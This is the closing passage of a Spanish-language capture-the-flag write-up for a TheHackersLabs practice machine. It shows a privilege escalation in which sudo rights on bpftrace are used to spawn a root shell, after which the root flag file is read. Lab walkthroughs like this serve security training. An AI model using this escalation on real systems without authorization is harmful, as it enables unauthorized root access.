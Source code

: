 <img src="/assets/images/THL-writeup-torrijas/Captura5.png">
</p>


Apliquémoslo:
```bash
primo@Torrija-TheHackersLabs:~$ sudo bpftrace -c /bin/bash -e 'END {exit()}'
sudo: unable to resolve host Torrija-TheHackersLabs: Nombre o servicio desconocido
Attaching 1 probe...
root@Torrija-TheHackersLabs:/home/primo# whoami
root
```
Excelente, somos **Root**.

Ya podemos buscar la última flag:
```bash
root@Torrija-TheHackersLabs:/home/primo# cd /root
root@Torrija-TheHackersLabs:~# ls
root.txt
root@Torrija-TheHackersLabs:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
